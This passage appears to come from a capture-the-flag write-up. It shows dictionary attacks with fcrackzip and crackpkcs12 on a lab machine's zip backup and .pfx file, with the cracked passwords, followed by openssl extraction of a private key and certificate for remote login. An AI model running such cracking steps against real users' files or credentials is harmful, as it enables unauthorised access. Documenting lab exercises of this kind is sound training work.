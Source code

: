 Use fcrackzip to get the password for the zip file -> it contains a .pfx file
```bash
$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip                                                                          130 ⨯
found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udei9Qui                                

PASSWORD FOUND!!!!: pw == supremelegacy
```
Also note that the zip file is 'winrm_backup' -> windows remote backup?
Crack the password for the .pfx using tool found @ https://github.com/crackpkcs12/crackpkcs12
```bash
$ crackpkcs12 -b -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx 

Dictionary attack - Starting 4 threads


*********************************************************
Dictionary attack - Thread 1 - Password found: thuglegacy
*********************************************************
```
Use the password to extract the keys from the .pfx file
```bash
# Exctract priv key
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out example.key                                                                                  1 ⨯
Enter Import Password: thuglegacy
Enter PEM pass phrase: password
Verifying - Enter PEM pass phrase: password

# This new priv key's password is password
$ ls
example.key

# Now extract cert
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out example.cert 
Enter Import Password: thuglegacy

$ ls
example.cert example.key
```
